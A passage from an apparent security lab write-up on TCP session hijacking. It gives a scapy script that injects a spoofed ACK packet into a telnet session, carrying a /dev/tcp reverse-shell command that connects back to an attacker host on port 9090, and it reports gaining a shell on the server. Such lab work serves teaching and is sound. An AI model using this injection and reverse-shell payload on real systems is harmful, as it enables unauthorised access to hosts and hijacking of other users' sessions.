 We then prepared the scapy file with the ip, port numbers given, which were 10.0.2.6:44528 (client) and 10.0.2.7:23 (Server). Also, we could use the above Seq number and Ack number. Finally, we set the flag as Ack and set the data with our reverse Shell code command like the following.

```Python
#!/usr/bin/python
from scapy.all import *

ip = IP(src="10.0.2.6", dst="10.0.2.7")
tcp = TCP(
    sport=44528, dport=23, flags="A",
    seq=3684699739, ack=520936048
)
data = "\r /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt,verbose=0)
```

We then run the scapy file after we start listening the 9090 port. We can see that we get the Shell and we can run a simple command `hostname -I` to show that we have hijacked the telnet connection from the victim to the server since the ip becomes 10.0.2.7, which is the server now.


<figure>
<img style="width:100%; padding-left:0%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_6cdb0f649b4bd92d9715e65a024e279a.png"/>
<figcaption> Figure 5.4 Running the attack </figcaption><br>
</figure>

